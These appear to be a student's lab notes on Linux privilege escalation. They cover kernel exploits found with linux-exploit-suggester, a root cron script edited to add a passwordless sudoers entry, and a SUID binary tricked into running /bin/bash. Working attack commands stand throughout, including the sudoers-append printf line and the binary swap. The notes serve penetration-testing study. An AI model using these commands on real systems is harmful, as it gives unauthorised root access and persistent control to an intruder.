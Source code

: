 # Linux Kernel Exploits
- to execute arbitrary code in order to run privileged system commands or to obtain a system shell
- differ based ont the kernel version and distribution
- methodology
	- identifying kernel vulns - tool linux-exploit-suggester
	- download, compile, and transfer kernel exploit on the target sys
- tools
	- Linux-Exploit-Suggester
	- GitHub
- **Process**
	- obtain a meterpreter session on the target
	- after that collect data- `sysinfo`, `getuid`, 
	- download and transfer the tool to the target system
		- `cd /tmp`
		- upload <path to linux exploit suggestor file>
	- shell
	- `/bin/bash -i`
	- `chmod +x les.sh`
	- `./les.sh`
	- will provide us with the vulns 
	- download the exploit and compile it on your machine
	- transfer it to the target system
	- run it
	- If it does not work, upload the file before compilation
	- compile it on the target system
	- you have a new user with root privileges

### Misconfigured Cron Jobs
- Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule
- crontab file
- Cron jobs can be run as any user on the system
- find and identify cron jobs scheduled by the root user
- **Exploitation Process**
	- `crontab -l`
	- `ls -al`
	- `cd /`
	- `grep -rnw /usr -e "home/student/message"`
	- once find the script, edit it 
	- `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
	- `sudo -l`
	- `sudo su`

### Exploiting SUID Binaries
- Set Owner User ID
- a permission like read, wirte, and execute
- provides users with the ability to execute a script or binary with permissions of the file owner
- factors important
- owner of SUID binary
- Access permissions
-**Exploitation Process**
	- `ls -la`
	- find the file which has the SUID permission enabled s
	- `file welcome` --> welcome is the name of file
	- `strings welcome` -- here we saw that the welcome is calling the greetings binary
	- `rm greetings`
	- `cp /bin/bash greetings`
	- ` ./welcome`
